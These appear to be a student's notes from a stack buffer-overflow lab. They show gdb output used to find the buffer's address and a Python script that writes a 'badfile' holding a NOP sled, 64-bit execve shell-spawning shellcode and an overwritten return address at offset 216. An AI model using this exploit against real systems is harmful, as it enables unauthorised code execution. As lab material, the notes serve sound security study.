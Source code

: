 ```bash
gdb-peda$ p &buffer
$2 = (char (*)[200]) 0x7fffffffdc80
```


![](attachment/d15a14a092afd5c7c91dacbfa2a6e2b7.png)

The difference b/w buffer starting point and `rbp` is 208. So, offset would be +8 for it which would be 216. 

```python
#!/usr/bin/python3
import sys

shellcode = (
 "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) # Change this number
content[start:start + len(shellcode)] = shellcode # adding shellcode at end of badfile

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x7fffffffe160 + 500       #I need to jump high enough to go inside NOP. Beginning of buffer + 300
offset = 208+8 #(208 as diff and add 8 bytes since its 64 bit achine)              # Change this number

L = 8     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
*tried different combinations and jumped to 500 and tried it.*